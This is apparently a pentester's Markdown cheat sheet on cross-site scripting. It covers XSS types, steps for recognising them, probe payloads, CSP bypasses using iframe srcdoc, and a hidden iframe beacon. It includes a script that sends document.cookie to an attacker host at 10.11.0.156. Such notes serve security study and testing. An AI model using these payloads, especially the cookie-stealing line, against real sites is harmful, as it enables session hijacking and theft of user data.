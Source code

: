 XSS

## Theory

- Reflected : Input from a user is directly returned to the browser, permittint injection of arbitrary content
- Stored : Input from a user is stored on the server (often in a database) and returned later without proper escaping
- DOM : Input from a user inserted into the page's DOM without proper handling, enabling insertion of arbitrary code.


---

## Recognition

1. Figure out where it goes. Does it get embedded in a tag attribute ? into a string in a script tag ?
2. Figure out any special handling : Do URLs get turned into links ?
3. Figure out how special characters are handled : Try these ```'<>:;"'

- From those 3 steps, you'll know whether or not a givin input is vulnerable to XSS.
r(reflected)XSS are dependent on CSRF vulnerabilities to be exploitable, in the case of POST. If rXSS in GET, you are dependent on CSRF otherwise.

- Example 1 : Testing character, angle brackets ```<>``` are passed through without encoding
and text is shown in a text node of the document. Here a simple ```<script>alert("XSS");</script>``` will work.

- Example 2 : THe input is reflected in a tag attribute. You have to break out of the attribute, but in most cases you don't need to leave the tag; meaning no need for angle brackets.
- 


---

## Short cheat sheet 

```
"><h1>test</h1>"
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)
```
If one of these work, you just have to find the good one !

Complete cheat sheet : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

---


## With an iframe , it's possible to get same result but in a stealthier manner :

```<iframe SRC="http://10.11.0.156:81/report" height = “0” width = “0”></iframe>```


---

## Steal the cookies :

```<script>new Image().src="http://10.11.0.156:4441/bogus.php?output="+document.cookie;</script>```

---

## TOOL TO TEST 

https://github.com/Damian89/extended-xss-search

---

## Check how it is reflected

- Any weird character ? Encoded ? Double encoded ? 


---

## Bypass CSP

- Check the header content-security-policy (burp or dev tools)
- Copy paste the url or the header into https://csp-evaluator.withgoogle.com/
- Don't bother with the warning about object-src, too old thing.


### default-src 

- means that it will only execute javascript from the server. So here, use the javascript at your disposal from the server.

-  To solve it : according to the documentation, the srcdoc attribute overrides the src attribute and specifies the HTML content to show inside the iframe. But most importantly, the iframe with the srcdoc attribute is not cross domain, meaning that the content will be treated as coming from the same domain as the parent-page. 

```<iframe srcdoc="<script src=...></script>"></iframe>```

Example from the intigriti easter xss challenge : ```<iframe srcdoc="<script src=https://challenge.intigriti.io/'-alert(document.domain)-'></script>"></iframe>```

### Resources :
https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/
https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/april/a-novel-csp-bypass-using-data-uri/

